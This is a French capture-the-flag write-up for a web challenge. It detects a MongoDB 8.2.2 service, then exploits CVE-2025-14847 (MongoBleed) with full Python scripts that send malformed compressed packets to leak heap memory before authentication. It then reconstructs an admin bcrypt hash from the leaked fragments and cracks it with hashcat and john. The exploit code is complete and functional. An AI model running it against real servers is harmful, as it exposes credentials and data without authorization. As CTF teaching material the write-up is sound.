

## Recettes d'une bonne année 1/2

## Informations du challenge

| Catégorie | Difficulté | Points | Auteur |
|-----------|------------|--------|--------|
| Web | Difficile | 400 | bUst4gr0 |

**Preuve :** `!!!!Sweet!!!!`

## Contexte

Chall bonus :
Un seul port est exposé. À nous de trouver ce qui tourne derrière.

---

## Étape 1 — Reconnaissance

On commence par un scan nmap sur le port fourni par CTFd :

```bash
nmap -p <port> <ip>
```

Résultat :

```
PORT      STATE SERVICE
<port>/tcp open  mongod
```

Nmap identifie le service comme `mongod` via sa base de données de ports. On confirme avec détection de version :

```bash
nmap -sV -p <port> <ip>
```

Résultat :

```
PORT      STATE SERVICE VERSION
<port>/tcp open  mongod?
1 service unrecognized despite returning data.
SF-Port<port>-TCP:...r(mongodb,...Unsupported OP_QUERY command: serverStatus...
SF:UnsupportedOpQueryCommand...
```

Nmap hésite (`mongod?`) mais le fingerprint est éloquent — la probe utilisée s'appelle `mongodb`,
la réponse contient `UnsupportedOpQueryCommand`, un terme spécifique au protocole wire MongoDB.
Le service répond en BSON.

On passe à mongosh pour confirmer et obtenir la version précise.

---

## Étape 2 — Confirmation avec mongosh

On tente une connexion directe sans credentials :

```bash
mongosh <ip>:<port>
```

Le banner confirme immédiatement le service :

```
Current Mongosh Log ID: ...
Connecting to: mongodb://<ip>:<port>
Using MongoDB: 8.2.2
Using Mongosh: 2.7.0
```

On tente quelques commandes :

```
test> show dbs
test> show collections
MongoServerError[Unauthorized]: not authorized on test to execute command { listCollections: 1 ... }
```

**Version confirmée : MongoDB 8.2.2** — comprise entre 8.2.0 et 8.2.2

Vulnérable à **CVE-2025-14847 (MongoBleed)** qui opère **avant authentification** ?

Il faut donc récupérer cet exploit (https://github.com/joe-desimone/mongobleed) et le modifier pour atteindre notre objectif.



---

## Étape 3 — Exploitation de CVE-2025-14847

### Le PoC original

Une recherche sur CVE-2025-14847 mène au PoC original de Joe Desimone :

```bash
git clone https://github.com/joe-desimone/mongobleed
cd mongobleed
python3 mongobleed.py --host <ip> --port <port>
```

Le PoC scanne les offsets 20 à 8192 par défaut et dumpe la mémoire brute.

Les sorties sont bruitées, partielles ; le script ne reconstruit rien automatiquement.

Difficile à exploiter directement pour extraire un hash bcrypt complet.

### Approche améliorée

On améliore l'approche avec deux scripts dédiés.

**Script 1 — Dump mémoire**

```bash
python3 mongobleed_dump.py --host <ip> --port <port>
```

Le script `mongobleed_dump.py` est le suivant :

```shell
#!/usr/bin/env python3
"""
MongoBleed — CVE-2025-14847
Step 1: Memory dump
"""

import socket
import struct
import zlib
import argparse
import random

# ------------------------------------------------
# Build malicious OP_COMPRESSED packet
# ------------------------------------------------

def build_packet(doc_len, fake_size):
    content = b'\x10a\x00\x01\x00\x00\x00'
    bson    = struct.pack('<i', doc_len) + content
    op_msg  = struct.pack('<I', 0) + b'\x00' + bson

    compressed = zlib.compress(op_msg)

    payload  = struct.pack('<I', 2013)
    payload += struct.pack('<I', fake_size)
    payload += struct.pack('B', 2)
    payload += compressed

    header = struct.pack(
        "<IIII",
        16 + len(payload),
        random.randint(1, 9999),
        0,
        2012
    )
    return header + payload

# ------------------------------------------------
# Receive full MongoDB response
# ------------------------------------------------

def recv_full(sock):
    try:
        header = b""
        while len(header) < 16:
            chunk = sock.recv(16 - len(header))
            if not chunk:
                return b""
            header += chunk

        msg_len = struct.unpack("<I", header[:4])[0]

        body = b""
        while len(body) < msg_len - 16:
            chunk = sock.recv(min(65536, msg_len - 16 - len(body)))
            if not chunk:
                break
            body += chunk

        return header + body
    except Exception:
        return b""

# ------------------------------------------------
# Send one probe, return raw leaked bytes
# ------------------------------------------------

def send_probe(host, port, doc_len):
    pkt = build_packet(doc_len, doc_len + 500)
    try:
        s = socket.socket()
        s.settimeout(3)
        s.connect((host, port))
        s.sendall(pkt)
        resp = recv_full(s)
        s.close()
        return resp
    except Exception:
        return b""

def extract_raw_memory(resp):
    if len(resp) < 16:
        return b""

    msg_len = struct.unpack("<I", resp[:4])[0]
    opcode  = struct.unpack("<I", resp[12:16])[0]
    body    = resp[16:msg_len]

    if opcode == 2012 and len(body) > 9:
        try:
            body = zlib.decompress(body[9:])
        except Exception:
            pass

    return body

# ------------------------------------------------
# Main scanner
# ------------------------------------------------

def run(host, port, min_offset, max_offset, outfile, append):
    mode = "wb" if not append else "ab"
    action = "Writing to" if not append else "Appending to"

    print(f"[*] MongoBleed — CVE-2025-14847 — Memory Dump")
    print(f"[*] Target  : {host}:{port}")
    print(f"[*] Offsets : {min_offset} -> {max_offset}")
    print(f"[*] {action} {outfile}")
    print()

    total_bytes = 0
    bcrypt_hits = 0

    with open(outfile, mode) as f:
        for offset in range(min_offset, max_offset):
            resp = send_probe(host, port, offset)
            raw  = extract_raw_memory(resp)

            if raw:
                f.write(raw + b"\n")
                total_bytes += len(raw)

                text = raw.decode(errors="ignore")
                if "$2b$" in text:
                    bcrypt_hits += 1
                    print(f"[+] offset={offset:6d} bcrypt hit: {text[:80].strip()}")

            if (offset - min_offset) % 5000 == 0 and offset != min_offset:
                pct = (offset - min_offset) / (max_offset - min_offset) * 100
                print(f"    ... {pct:.0f}% ({offset}/{max_offset}) — {bcrypt_hits} bcrypt hits so far", flush=True)

    print()
    print(f"[*] Done — {total_bytes} bytes dumped, {bcrypt_hits} bcrypt hits")
    print(f"[*] Saved to {outfile}")
    print(f"[*] Run mongobleed_reconstruct.py --input {outfile} to attempt hash reconstruction")

# ------------------------------------------------
# Entry
# ------------------------------------------------

def main():
    parser = argparse.ArgumentParser(description="MongoBleed CVE-2025-14847 — Memory Dump")
    parser.add_argument("--host",       default="127.0.0.1")
    parser.add_argument("--port",       type=int, default=27017)
    parser.add_argument("--min-offset", type=int, default=20)
    parser.add_argument("--max-offset", type=int, default=30000)
    parser.add_argument("--output",     default="memory_dump.bin")
    parser.add_argument("--overwrite",  action="store_true", help="Overwrite existing dump instead of appending")
    args = parser.parse_args()

    run(args.host, args.port, args.min_offset, args.max_offset, args.output, not args.overwrite)

if __name__ == "__main__":
    main()

```

Le script accumule les réponses dans `memory_dump.bin`.

On peut le relancer plusieurs fois — les données s'accumulent par défaut (`--overwrite` pour repartir de zéro).

Durant le scan, on remarque des hits `$2b$` — des fragments de hash bcrypt qui fuient depuis la mémoire heap.

On observe deux types de préfixes : `$2b$10$` et `$2b$12$`.

On trouve occasionnellement des fragments du type :

```
"password":"xGv8G","role":"admin"
```

Ce qui corrèle le préfixe **`$2b$10$`** au compte **admin**.

De plus, bcrypt à **10 rounds** est significativement plus rapide à craquer qu'à 12 rounds — c'est notre cible prioritaire.

**Script 2 — Reconstruction du hash**

```bash
python3 mongobleed_reconstruct.py
```

Le script `mongobleed_reconstruct.py` est le suivant :

```shell
#!/usr/bin/env python3
"""
MongoBleed — CVE-2025-14847
Step 2: Hash reconstruction from memory dump
"""

import argparse
from collections import Counter

# ------------------------------------------------
# bcrypt alphabet
# ------------------------------------------------

BCRYPT_ALPHABET = set("./ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789$")

# ------------------------------------------------
# Fragment extraction
# ------------------------------------------------

def extract_bcrypt_fragments(dump, prefix):
    """
    Find all occurrences of prefix in dump,
    then greedily consume bcrypt-valid chars to build the fragment.
    """
    fragments = []
    start = 0
    while True:
        pos = dump.find(prefix, start)
        if pos == -1:
            break
        window = dump[pos:pos + 80]
        frag = ""
        for c in window:
            if c in BCRYPT_ALPHABET:
                frag += c
            else:
                break
        if len(frag) > len(prefix):
            fragments.append(frag)
        start = pos + 1
    return fragments


def find_best_fragment(fragments, min_len=4):
    counts = Counter(fragments)
    for frag, _ in counts.most_common():
        if len(frag) >= min_len:
            return frag
    return None

# ------------------------------------------------
# Hash reconstruction via overlap chaining
# ------------------------------------------------

def reconstruct_hash(dump, target_len=60):
    """
    Bootstrap on $2b$10$ (start by 10 rounds hash) then extend
    using 3-char overlap windows until target_len reached.
    """
    hash_str = ""
    iteration = 0

    # Count available material before starting
    admin_frags = extract_bcrypt_fragments(dump, "$2b$10$")
    user_frags  = extract_bcrypt_fragments(dump, "$2b$12$")
    print(f"[*] Found {len(admin_frags)} fragments with $2b$10$ prefix (admin)")
    print(f"[*] Found {len(user_frags)} fragments with $2b$12$ prefix (other users — ignore)")
    print()

    if not admin_frags:
        print("[-] No $2b$10$ fragments found — dump more data with mongobleed_dump.py --append")
        return None

    while len(hash_str) < target_len:
        if iteration == 0:
            best = find_best_fragment(admin_frags)
            if not best:
                print("[-] Could not bootstrap — try dumping more data")
                return None
            hash_str = best
        else:
            anchor = hash_str[-3:]
            fragments = extract_bcrypt_fragments(dump, anchor)
            if not fragments:
                print(f"[-] Stuck at position {len(hash_str)} (anchor: {anchor!r})")
                print(f"[-] Partial hash so far : {hash_str}")
                print(f"[-] Run mongobleed_dump.py --append to collect more fragments")
                return None

            best = find_best_fragment(fragments)
            if not best:
                print(f"[-] No good fragment found at position {len(hash_str)}")
                return None

            extension = best[3:]
            if not extension:
                print(f"[-] Extension is empty at position {len(hash_str)}")
                return None

            hash_str += extension

        print(f"    [{len(hash_str):02d}/60] {hash_str}")
        iteration += 1

    return hash_str if len(hash_str) >= target_len else None

# ------------------------------------------------
# Entry
# ------------------------------------------------

def main():
    parser = argparse.ArgumentParser(description="MongoBleed CVE-2025-14847 — Hash Reconstruction")
    parser.add_argument("--input",      default="memory_dump.bin", help="Dump file from mongobleed_dump.py")
    parser.add_argument("--target-len", type=int, default=60,      help="Expected hash length (default: 60)")
    args = parser.parse_args()

    print(f"[*] MongoBleed — CVE-2025-14847 — Hash Reconstruction")
    print(f"[*] Reading dump : {args.input}")
    print()

    try:
        with open(args.input, "rb") as f:
            raw = f.read()
    except FileNotFoundError:
        print(f"[-] File not found: {args.input}")
        print(f"[-] Run mongobleed_dump.py first")
        return

    dump = raw.decode(errors="ignore")
    print(f"[*] Dump size : {len(raw)} bytes")
    print()

    result = reconstruct_hash(dump, args.target_len)

    if result:
        print()
        print(f"[+] Hash reconstructed : {result}")
        print(f"[+] Now crack it with  : hashcat -m 3200 '{result}' wordlist.txt")
    else:
        print()
        print("[-] Reconstruction incomplete — collect more data:")
        print("    python3 mongobleed_dump.py --host <ip> --port <port>")
        print("    python3 mongobleed_reconstruct.py --input memory_dump.bin")

if __name__ == "__main__":
    main()

```

Le script reconstruit le hash progressivement :

il cherche dans le dump tous les fragments qui commencent par les 3 derniers caractères déjà reconstruits,
puis sélectionne le plus fréquent pour filtrer le bruit.

Les fragments de noise étant aléatoires, ils apparaissent rarement deux fois identiques, contrairement aux vrais fragments du hash.

```
[*] Found 47 fragments with $2b$10$ prefix

    [07/60] $2b$10$cz
    [14/60] $2b$10$czeRy8G1
    [22/60] $2b$10$czeRy8G1Ru0bBv
    [31/60] $2b$10$czeRy8G1Ru0bBvHia.
    [40/60] $2b$10$czeRy8G1Ru0bBvHia.WqX.aF
    [49/60] $2b$10$czeRy8G1Ru0bBvHia.WqX.aFyklD2.SM
    [60/60] $2b$10$czeRy8G1Ru0bBvHia.WqX.aFyklD2.SMgMetvUXbZjN1HTMZxGv8G

[+] Hash reconstructed : $2b$10$czeRy8G1Ru0bBvHia.WqX.aFyklD2.SMgMetvUXbZjN1HTMZxGv8G
```

Si la reconstruction échoue à mi-chemin, on relance le dump pour accumuler plus de fragments, puis on retente.

---

## Étape 4 — Crack du hash

La wordlist nécessaire est récupérée dans le challenge précédent (`custom_wordlist.txt`).

> **Note :** `rockyou.txt` peut techniquement fonctionner si le mot de passe y figure,
mais bcrypt à 10 rounds reste lent : comptez plusieurs heures, voire des jours, selon votre matériel.

La `custom_wordlist.txt` est fortement recommandée.

### Avec hashcat (recommandé — accélération GPU)

```bash
hashcat -m 3200 '$2b$10$czeRy8G1Ru0bBvHia.WqX.aFyklD2.SMgMetvUXbZjN1HTMZxGv8G' custom_wordlist.txt
```

Résultat après quelques minutes :

```
$2b$10$czeRy8G1Ru0bBvHia.WqX.aFyklD2.SMgMetvUXbZjN1HTMZxGv8G:!!!!Sweet!!!!

Session..........: hashcat
Status...........: Cracked
```

### Avec john (alternative sans GPU)

```bash
echo '$2b$10$czeRy8G1Ru0bBvHia.WqX.aFyklD2.SMgMetvUXbZjN1HTMZxGv8G' > hash.txt
john --format=bcrypt --wordlist=custom_wordlist.txt hash.txt
```

Résultat :

```
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
!!!!Sweet!!!!       (?)
1g 0:00:02:34 DONE
```

---

## Résumé

| Étape | Outil | Résultat |
|-------|-------|----------|
| Reconnaissance | nmap | MongoDB détecté sur le port exposé |
| Confirmation | mongosh | MongoDB 8.2.2 + auth activée |
| Exploitation | mongobleed_dump.py | Dump mémoire heap avec fragments bcrypt |
| Reconstruction | mongobleed_reconstruct.py | Hash bcrypt admin complet |
| Crack | hashcat / john | Mot de passe admin récupéré via `custom_wordlist.txt` |

Le mot de passe du compte admin servira à s'authentifier sur l'application web en **Partie 2**.

✅ Preuve : `!!!!Sweet!!!!`
